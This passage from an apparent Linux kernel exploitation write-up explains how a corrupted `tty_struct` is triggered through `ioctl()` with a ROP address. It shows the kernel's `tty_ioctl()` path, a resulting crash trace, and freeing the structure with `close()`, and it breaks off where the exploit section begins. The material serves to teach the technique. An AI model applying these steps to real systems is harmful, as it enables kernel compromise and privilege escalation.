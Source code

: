 ```c
int result = ioctl(ptys[i], rop_addr, rop_addr); 
```

The user-space `ioctl()` library call eventually ends up invoking the following kernel function: [`tty_ioctl()`](https://elixir.bootlin.com/linux/v6.16/source/drivers/tty/tty_io.c#L2668).

```c
long tty_ioctl(struct file *file, unsigned int cmd, unsigned long arg)
{
	struct tty_struct *tty = file_tty(file);
  ...
  ..
	if (tty->ops->ioctl) {
		retval = tty->ops->ioctl(tty, cmd, arg);
		if (retval != -ENOIOCTLCMD)
			return retval;
	}
  ...
}
// ...bunch more ptmx specific stuff
```

#### Tracing the syscalls?

How do we trace these system calls if needed? One option is using tools like `gdb`, but maybe let's crash the kernel first.

```sh
[    5.309902] Call Trace:
[    5.310479]  <TASK>
[    5.310733]  ? __die+0x1e/0x60
[    5.310850]  ? page_fault_oops+0x17c/0x470
[    5.310940]  ? avc_has_extended_perms+0x233/0x520
[    5.311039]  ? exc_page_fault+0x6b/0x150
[    5.311123]  ? asm_exc_page_fault+0x26/0x30
[    5.311211]  ? e1000e_read_phy_reg_m88+0x45/0x60
[    5.311326]  ? e1000e_read_phy_reg_m88+0x46/0x60
[    5.311429]  ? tty_ioctl+0x4fc/0x8c0
[    5.311526]  ? __x64_sys_ioctl+0x92/0xd0
[    5.311619]  ? do_syscall_64+0x3f/0x90
[    5.311710]  ? entry_SYSCALL_64_after_hwframe+0x6e/0xd8
[    5.311858]  </TASK>
```

#### Deallocating the `tty_struct`:

Of course, we don’t always have to crash everything. Sometimes, cleanly deallocating the `tty_struct` is all we need.

```c
close(pty);
```

#### Utilizing `tty_struct` for exploit
